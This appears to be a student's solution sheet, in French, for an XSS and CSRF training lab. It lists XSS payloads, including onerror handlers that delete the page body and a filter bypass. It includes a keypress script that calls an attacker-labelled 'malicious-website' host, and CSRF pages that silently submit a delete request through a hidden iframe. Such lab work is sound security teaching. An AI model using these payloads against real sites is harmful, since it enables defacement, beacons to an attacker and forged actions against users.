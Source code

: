 ##Partie 1 :

level 1 :

https://xss-csrf-tp.herokuapp.com/level/1?page=1%3Cimg%20src=%22https://idealogeek.fr/wp-content/uploads/2020/09/RNG-Random-Number-Generator-1024x576.jpg%22%3E%3C/img%3E

------------------------------------------------------------------------------

level 2 :

1-	<script type="text/javascript>alert("Ceci est une alerte")</script>

2-	La balise ne fonctionne pas. Ils sont bloqués par mesure de sécurité

3-	Les données en base sont récupérées via un POST

4-	`<img src='touklakos.jpg' onerror="body.remove()" ></img>`

5-

------------------------------------------------------------------------------

level 3 :

1-	`<i<img>mg src='touklakos.jpg' onerror="body.remove()"/>`

2-	

```javascript
    (function() {
      var httpRequest;
      window.addEventListener('keypress', makeRequest);

      function makeRequest() {
        httpRequest = new XMLHttpRequest();

        if (!httpRequest) {
          console.log('Erreur :( Impossible de créer XMLHTTP');
          return false;
        }
        httpRequest.onreadystatechange = alertContents;
        httpRequest.open('GET', 'https://my-malicious-website-muller.herokuapp.com/keylogger.php');
        httpRequest.setRequestHeader('Access-Control-Allow-Origin', null);
        httpRequest.send();
      }

      function alertContents() {
        if (httpRequest.readyState === XMLHttpRequest.DONE) {
          if (httpRequest.status === 200) {
            console.log(httpRequest.responseText);
          } else {
            console.log('Erreur : (problème avec la requête)');
          }
        }
      }
    })();
```

##Partie 2 :

1-	https://my-malicious-website-muller.herokuapp.com/

2-	
```php
    <?php include_once("index.html"); ?>

    <form
    	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
    	method="GET"
        id="12"
    >
    </form>

    <script>
    	document.getElementById("12").submit();
    </script>
```

3-	
```php
    <?php include_once("index.html"); ?>

    <iframe name="hiddenIFrame" style="display: none;"></iframe>

    <form
    	action="https://xss-csrf-tp.herokuapp.com/articles/delete"
        method="about:blank"
        id="12"
        target="hiddenIFrame"
    >
    </form>

    <script>
    	document.getElementById("12").submit();
    </script>
```